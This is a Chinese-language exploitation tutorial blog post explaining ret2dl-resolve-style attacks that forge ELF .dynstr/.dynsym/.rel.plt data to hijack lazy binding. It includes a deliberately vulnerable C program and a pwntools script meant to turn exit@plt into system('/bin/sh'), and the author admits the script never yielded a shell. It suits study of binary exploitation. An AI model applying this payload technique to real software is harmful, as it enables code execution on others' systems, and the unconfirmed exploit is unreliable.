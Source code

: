 ```yaml
---
title: exploit without info leak 
date: 2017-02-15 22:28:37
categories: pwn
---
```


# 不依靠信息泄漏来exploit
> - by hook
## 信息介绍

 安全攻防的升级从堆栈执行shellcode到NX不可执行，从ret2libc到ASLR地址随机化，从dynamic symtab strtab到RELRO, 到攻击者的内存泄漏内存地址不断进化着。
目前攻击者在控制pc指针后，一般分两步来完成后续的漏洞利用。第一步通过信息泄漏漏洞leak出内存布局，第二部则是精心构造具有艺术感的exploit gadget。
 但如果有些程序没有可以泄漏内存的信息的漏洞怎么办？如下面的代码，除了明显的pc指针控制漏洞外，没有引入任何输出函数，导致后续没办法输出内存信息。
 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulfunc()
{
    char sbuf[10];
    read(0, sbuf, 60);
}

int main()
{
    vulfunc();
    exit(0);
    return 0;
}
```
在usenix大会上,ucsb-seclab分享了他们的攻击方法。在Linux上，为了节省静态库占用空间，和保证动态库的稳定工作，引入了一种plt lazy binding的技术。一个普通的ELF文件通常包含了下面一些段
![](/images/exploit without info leak/1.png)
而那些从外部动态库引入的函数则主要以字符串信息保存在ELF中，而它们正真的地址则在程序第一次调用它们时才从系统获取到。这个过程中利用PLT来完成延迟绑定，在第一次函数地址重定位后，函数地址将被写入GOT表中，此后再调用该函数将查询GOT表来跳转。（参考于 《程序员的自我修养 --链接、装载与库》）

## 攻击思路

那么这里就有个想法，如果修改了内存中保存的函数名，比如把"printf"这个字符串改为“execv“等关键函数，那么在第一次调用printf("/bin/sh")时，真正执行了execv("/bin/sh")，从而get shell。
但ELF相关开发小组早就做了保护，保存的函数名等字符串段在载入内存后是仅可读的，阻止攻击者通过篡改内存中函数名来获取到其他函数在内存中的地址。

但同样的思路，换个方法，就可以成功绕过防护，这里就要介绍写ELF中信息的分布和函数地址的动态重定位了了。
1. .dynstr段中保存了动态引入的函数名字符串
2. .dynsym段中则是记录了不同动态引入函数的其他信息，并且st_name保存了.dynstr中对应的函数名称的下标号
    struct {
        st_name
        ...
    }
3. .rel.plt段则是用来记录引入函数的地址信息，如果在动态链接器获取了函数地址后，r_offset保存解析后的符号地址被写入内存中的位置，而r_info保存.dynsym中对应的函数信息的下标号
    struct {
        r_offset
        r_info
    }
4. .dynamic段则保存了上面各个段的地址，负责地址的查询工作

而函数地址则由got表中第二个标号中的_dl_runtime_resolve(link_map_obj, reloc_index)函数指针来获取，获取到的地址则保存到got表中，那么就可以衍生出下面几种不同情况下的攻击方法：

## 攻击方法
### 部分RELRO保护 1.
在内存可写的段中构造伪造的.dynstr段信息，将其中的最后要用的函数名改为自己想要的函数名，比如execv 替换printf
接着将该段内存的地址覆盖写入.dynmaic段中保存.dynstr地址的区域，接着再向内存中写入shellcode，接着给printf函数传入shellcode，那么当printf是第一次被调用时，将从伪造的.dynstr段中读取到“execv”函数名，接着从内存中获取到execv函数地址存入printf函数对应的got表中，最后跳转回去再执行到的就是execv(shellcode)了，成功get shell。
### 部分RELRO保护 2.
直接一次性伪造.dynstr, .dynsym, .rel.plt三个段，填入自己想获取的函数名称信息，最后将伪造的.rel.plt地址传入_dl_runtime_resolve()中，最后会顺着地址将伪造的.dynstr段中的函数名解析，获取到地址，保存到对应标号的GOT表中，后续就是同样利用了。
### 完全RELRO保护 3.
当采用完全RELRO保护时，所有重定位将在加载时全部完成，没有plt lazy binding, 所以要绕过保护需要采用不同的方法。
伪造.dynamic, .dynstr, 接着通过DT_DEBUG来解析r_debug中保存的r_map信息，r_map则保存着link_map链表的头部指针， 覆盖link_map的l_info指向伪造的.dynamic段中，后续相同利用。

## 攻击测试
先贴exp：

```
#!/usr/bin/python

from pwn import *

vulFunAddr = 0x0804845b
mainFunAddr = 0x08048476
readpltAddr = 0x08048310
exitpltAddr = 0x08048340
putspltAddr = 0x08048320
dynstrInDynamicAddr = 0x080496a0
dynstrAddr = 0x0804821c
bssAddr = 0x08049770
dynstrListAddr = [0x0804821c, 0x0804821d, 0x08048227, 0x08048236, 0x0804823b, 0x08048240, 0x08048245, 0x08048257, 0x08048266, 0x08048270]
strTable = ['', 'libc.so.6', '_IO_stdin_used', 'puts', 'exit', 'read', '__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[4] = 'system' #use 'system' in place of 'exit'
log.info('strTable = ')
log.info(strTable)

expOffset = 22 
log.info("* [ok]: exploit offset is " + str(expOffset))
binShellStr = '/bin/sh\0'
payloadHead = 'a'*expOffset

def showDynStr():
    log.info("=======================")
    for i in dynstrListAddr:
        payload = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(i)
        p.send(payload)
        str = p.recv()
        #print str
    log.info("=======================")


def writeStrTableToBSS(baseAddr):
    tempBSS = baseAddr
    for i in strTable:
        #str = i + chr(0)
        str = i + chr(0)
        payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(tempBSS) + p32(len(str)+1)
        p.send(payloadTemp)
        log.info('* [ready]: write str = %s ' %(str))
        p.sendline(str)
        #set new bss offset
        tempBSS = tempBSS + len(str)

p = process('./a.out')
#context.log_level = 'debug'
#gdb.attach(p, execute='b *0x0804845b\nb *0x08048476\nb *0x08048340\n')

p.recvline()

log.info("* [ok]: show dynstr strtable")
showDynStr()

#first: write '/bin/sh\0' to BSS seg
payload1 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
p.send(binShellStr)
log.info("* [ok]: write '/bin/sh\0' to .bss seg successed!")

#second: write StrTable to BSS seg
dynstrInBSSAddr = bssAddr + len(binShellStr)
writeStrTableToBSS(dynstrInBSSAddr)
log.info("* [ok]: write self StrTable to .bss seg successed!")


log.info("* [ok]: show dynstr strtable")
showDynStr()

#third: write new StrTable address to dynamic d_val addr
payload2 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
p.send(p32(dynstrInBSSAddr))
log.info("* [ok]: write new StrTable to dynamic d_var addr successed!")

log.info("* [info]: ensure '/bin/sh' in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
str = p.recv()
print str

#forth: exit, and exit@plt('/bin/sh') -> system('/bin/sh')
#payload3 = payloadHead + p32(exitpltAddr) + p32(mainFunAddr) + p32(bssAddr)
log.info("* [ok]: show strTable in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(dynstrInBSSAddr)
p.send(payload3)
str = p.recv()
log.info("=======================")
print str
log.info("=======================")
payload3 = payloadHead + p32(exitpltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
log.info("* [waiting]: exit@plt('/bin/sh') -> system('/bin/sh')")

p.interactive()
```

在测试结果时，故意将函数名填错后，程序运行提示重定位错误
![](/images/exploit without info leak/2.jpeg)
修改正确后
![](/images/exploit without info leak/3.png)

但。。。。最后没得到shell。。不知道是我调用有问题。。还是。。算了，记日记，以后再调试。。。

